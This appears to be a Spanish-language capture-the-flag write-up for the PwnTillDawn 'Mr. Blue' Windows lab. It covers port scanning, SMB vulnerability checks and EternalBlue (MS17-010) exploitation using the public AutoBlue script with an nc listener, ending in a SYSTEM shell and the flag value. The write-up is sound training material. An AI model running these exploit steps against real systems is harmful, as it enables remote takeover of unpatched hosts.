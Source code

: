 # WRITEUP Mr. Blue

### ESCANEO
#### 10.150.150.242	Windows	Easy
```
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
3389/tcp  open  ms-wbt-server
8089/tcp  open  unknown
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49197/tcp open  unknown
```
Como siempre, iniciamos escaneando los puertos abiertos de la box. A primera vista vemos varios puertos interesantes que son "comunes", el puerto 53,80, y 445.



### ENUMERACIÓN

Al ingresar al puerto 80, podemos ver una imagen como index

![img](img/1.PNG)

Al intentar un fuzzeo de directorios no nos arrojó nada, por lo tanto dejaremos de lado este sitio. Ahora pasaremos al puerto 53, y lo primero que se nos viene a la mente al ver el puerto 53 abierto es verificar si tiene algún dominio. Para ello utilizaremos la utilidad dig para realizar [ZONE TRANSFER](https://www.welivesecurity.com/la-es/2015/06/17/trata-ataque-transferencia-zona-dns/) pero no conseguimos nada.

```
dig axfr @10.150.150.242
; <<>> DiG 9.16.12-Debian <<>> axfr @10.150.150.242
; (1 server found)
;; global options: +cmd
;; Query time: 112 msec
;; SERVER: 10.150.150.242#53(10.150.150.242)
;; WHEN: mié mar 10 00:23:44 CST 2021
;; MSG SIZE  rcvd: 40
```

Ahora nos queda el puerto 445, para ello podemos intentar listar recursos compartidos o verificar si su versión tiene alguna vulnerabilidad publica. Para ello lanzaremos los scripts de nmap.

```
nmap 10.150.150.242 -p445 --script="smb-vuln*"
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-10 00:29 CST
Nmap scan report for 10.150.150.242
Host is up (0.11s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

Como podemos observar, es vulnerable a un RCE (Eternalblue CVE-2017-0143) .

### EXPLOTACIÓN 

Tenemos 2 maneras de explotar esta vulnerabilidad, utilizando Metasploit o realizandolo a "mano". En nuestro caso lo vamos a realizar a mano, y para ello encontré [este script](https://github.com/3ndG4me/AutoBlue-MS17-010).

Una vez descargado, nos vamos a la carpeta "shellcode" y ejecutamos el script sh. Llenamos la información y nos dará un par de binarios.

![img](img/2.PNG)


El siguiente paso será poner nc en escucha en los ambos puertos que configuramos en el paso anterior. 
Después queda solamente ejecutar el exploit de la siguiente manera:

```
┌─[root@parrot]─[~/pwntilldawn/mrblue/AutoBlue-MS17-010]
└──╼ #python eternalblue_exploit7.py 10.150.150.242 shellcode/sc_all.bin
```

Y tenemos shell.
```
c:\users\Administrator.GNBUSCA-W054\desktop>whoami
whoami
nt authority\system

c:\Users\Administrator.GNBUSCA-W054\Desktop>type FLAG34.txt
type FLAG34.txt
c2e9e102e55d5697ed2f9a7ea637
```



Contacto: [Linkedin](https://www.linkedin.com/in/jair-rodriguezz/) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
